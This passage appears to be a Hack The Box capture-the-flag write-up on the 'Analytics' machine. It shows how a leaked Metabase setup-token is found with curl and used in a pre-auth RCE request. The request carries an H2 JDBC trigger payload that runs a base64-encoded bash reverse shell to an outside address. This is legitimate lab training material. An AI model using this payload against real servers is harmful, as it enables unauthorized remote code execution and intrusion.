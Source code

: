 This returned a long string of what appears to be JSON. So I will curl the site again and grep for 'token' and see what I find.

```bash
(h0ax㉿kracken)-[~/htb/boxes/easy/analytics]
└─$ curl data.analytical.htb/api/session/properties | jq | egrep -in -C 1 'setup-token'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 74478    0 74478    0     0   212k      0 --:--:-- --:--:-- --:--:--  219k
3545-  "landing-page": "",
3546:  "setup-token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
3547-  "application-colors": {},
```

As we can see, we got a value back for __setup-token__ that we can use.

Following the attack path lain out by the vulnerability disclosure, we can use the token we found to call the __/api/setup/validate__ endpoint.

Looking at the [Assetnote](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) writeup, we can actually see all of the header information and data that needs to be sent to this endpoint.

```
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 812

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
